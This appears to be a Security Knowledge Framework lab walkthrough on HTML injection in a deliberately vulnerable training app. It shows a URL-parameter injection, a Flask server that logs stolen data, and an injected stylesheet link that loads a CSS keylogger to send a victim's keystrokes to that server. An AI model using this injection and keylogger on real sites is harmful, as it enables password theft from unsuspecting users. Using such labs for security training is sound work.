

# KBID xxx - HTML Injection

## Running the app

```
$ sudo docker pull blabla1337/html-injection
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/html-injection
```





Now that the app is running let's go hacking!

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```


Now that the app is running let's go hacking!



## Reconnaissance

HTML injection is a vulnerability that allows an attacker to inject HTML code into a web application. In this lab, when we click the link on the home page to go to the user panel, we can see that the user's name is displayed in the URL. This is a good indication that we can inject HTML code into the URL and observe the result.

For example, if we modify the URL to `/user-panel/?name=<br>User</br>`, we can see that the text is bold and the developer tools display the HTML code that we injected.



That means that we can indeed inject HTML, which means an attacker can edit the URL and send it to the victim.

## Exploitation

Now that we know we can inject HTML code into the URL, we can attempt to inject a CSS keylogger to see if we can obtain the user's password. To do this, we need to start a web server on our host machine. We can use Python to accomplish this.

```python
#!/usr/bin/env python3

from flask import Flask, render_template, json

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True


@app.route("/logger/<log>")
def logger(log):
    print("--------------------")
    print(log)
    print("--------------------")
    return json.dumps({'success': True}), 200, {'ContentType': 'application/json'}


@app.errorhandler(404)
def page_not_found(e):
    return render_template("404.html")


if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5555)
```

Now that our web server is running, we can inject the CSS keylogger into the URL as follows: `/user-panel/?name=User<link rel="stylesheet" href="<http://localhost:5555/static/css/keylogger.css>" />`.

When the user visits the user panel, the keylogger will be injected and their keystrokes will be sent to our web server.


> Note: This keylogger is limited; for a more comprehensive version, you will need to generate a CSS with more character combinations. Additionally, this works because it is a React application.

## Additional sources

[owasp.org | Testing for HTML Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/03-Testing_for_HTML_Injection)
